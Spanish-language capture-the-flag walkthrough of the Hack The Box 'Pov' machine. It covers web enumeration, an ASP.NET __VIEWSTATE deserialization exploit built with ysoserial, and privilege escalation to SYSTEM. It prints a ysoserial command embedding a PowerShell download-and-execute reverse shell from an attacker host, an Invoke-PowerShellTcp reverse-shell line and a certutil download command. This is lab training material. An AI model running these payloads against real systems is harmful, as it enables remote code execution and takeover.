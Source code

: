 ### Ping
#windows #medium
```python
ping -c 1 10.10.11.251
PING 10.10.11.251 (10.10.11.251) 56(84) bytes of data.
64 bytes from 10.10.11.251: icmp_seq=1 ttl=127 time=157 ms

--- 10.10.11.251 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 156.729/156.729/156.729/0.000 ms
```

### TTL 127= Windows
### nmap
```python
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: pov.htb
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.52 seconds
```
obtenemos el nombre de dominio del host y lo agregamos al /etc/hosts

### Enumeración del puerto http (80)

![[Pasted image 20240612122547.png]]

### Fuzzing con wfuzz (Directorios)
no obtenemos nada interesante por el momento
![[Pasted image 20240612122553.png]]

### Fuzzing con wfuzz (Subdominios)
encontramos un subdominio sospechoso. lo agregamos al /etc/hosts
![[Pasted image 20240612122600.png]]

### Web dev.pov.htb

![[Pasted image 20240612122606.png]]

### BurpSuite
interceptamos la petición de download cv
![[Pasted image 20240612122611.png]]
cambiamos el EVENTVALIDATION= cv.pdf por = /web.config. esto nos muestra información de la pagina la cual la hace vulnerable a una explotacion de VIEWSTATE

### Vulnerabilidad Exploiting __VIEWSTATE
![[Pasted image 20240612122620.png]]
usaremos la herramienta YSoSerial.Net esta herramienta es para maquina windows asi que debes tener una maquina windows donde poder ejecutar esto (tambien puedes ejecutarlo desde kali linux pero debes complementarlo con otras herramientas)

### YSoSerial.Net
usaremos la siguiente sintax
```python
C:\FilesExplotation\ysoserial-1.34\Release>.\ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell.exe iex (New-Object Net.WebClient).DownloadString('http://10.10.14.64/Invoke-PowerShellTcp.ps1')" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43"  --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"
```

![[Pasted image 20240612122628.png]]

### Invoke-PowerShelltcp
ahora usaremos el invoke-powershell para invocar automaticamente esta shell. al final del codigo debemos agregar la siguiente linea 

```python
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 4444
```

![[Pasted image 20240612122635.png]]

### Servidor con python
estaremos compartiendo este archivo en un servidor con python
![[Pasted image 20240612122642.png]]

### BurpSuite
finalmente usaremos el codigo que hemos generado con el YSoSerial.Net intectandolo en el parametro **VIESTATE** 
Nota: el codigo debe ir URLEncode puede hacerlo desde burpsuite seleccionando el codigo y presionando CTRL + U 
![[Pasted image 20240612122648.png]]
### rlwrap
estaremos a la escucha con rlwrap para recibir nuestra reverse shell
![[Pasted image 20240612122653.png]]

### xml
![[Pasted image 20240612122701.png]]
En este archivo obtenemos otro Usuario llamado **alaading** y la contraseña codificada.

### Import-Clixml 
con (import-clixml conennection.xml).GetNetworkCredential() | fl  podemos extraer los datos de ese archivo xml
![[Pasted image 20240612122726.png]]

### Servidor con python 
ahora vamos a descargar RunasCs.exe, psgetsys.ps1 y EnableAllTokenPrivs.ps1
estaremos compartiendo todos estos archivos en nuestro servidor para poder subirlos a la maquina victima
![[Pasted image 20240612122735.png]]

### certutil.exe
usaremos la herramienta certutil para poder descargar los archivos a la maquina victima
```python
certutil.exe -urlcache -split -f "http://10.10.14.64/RunasCs.exe" ".\RunasCs.exe"
```

![[Pasted image 20240612122752.png]]

### RunasCs.exe
ejecutamos RunasCs con las credenciales que hemos conseguido llamamos una cmd.exe en nuestra dirección IP y el puerto
![[Pasted image 20240612122759.png]]

### rlwrap 
hemos conseguido una nueva conexión con las credenciales de alaading
![[Pasted image 20240612122804.png]]

### Escalada de privilegios
podemos ver que el privilegio "SeDebugPrivilege" ha sido deshabilitado
![[Pasted image 20240612122809.png]]

### sfitz
ejecutamos los script que hemos subido anteriormente y procedemos a la escalada 
![[Pasted image 20240612122815.png]]

### msfvenom
creamos un exploit con msfvenom para iniciar una reverse shell como nt\system y lo vamos a subir a la maquina victima con un servidor en python
![[Pasted image 20240612122821.png]]

### exploit.exe 
subimos el archivo a la maquina victima y ejecutamos .\exploit.exe 
![[Pasted image 20240612122826.png]]

### msfconsole
vamos a setear todos los parametros de multi/handler y ejecutamos el .\exploit.exe
![[Pasted image 20240612122832.png]]

### PID
aqui tendremos el PID del winlogon.exe y ahora solo debemos migrar a este PID
![[Pasted image 20240612122837.png]]

### migrate 
hacemos la migración al PID luego llamamos una shell y tenemos acceso como nt autority\system
![[Pasted image 20240612122842.png]]

### WE ARE ROOT
